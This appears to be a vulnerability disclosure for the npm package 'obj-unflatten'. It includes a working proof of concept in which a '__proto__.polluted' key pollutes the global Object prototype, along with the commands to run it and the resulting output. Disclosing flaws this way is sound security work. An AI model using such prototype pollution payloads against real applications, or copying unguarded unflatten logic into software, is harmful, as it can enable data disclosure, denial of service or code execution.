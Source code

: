 # Description

`obj-unflatten` convert flatten objects in nested ones. This package is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const unflatten = require('obj-unflatten')
console.log('Before: ' + {}.polluted)
unflatten({'__proto__.polluted': 'Prototype Polluted!'})
console.log('After: ' + {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i obj-unflatten # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: Prototype Polluted!
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
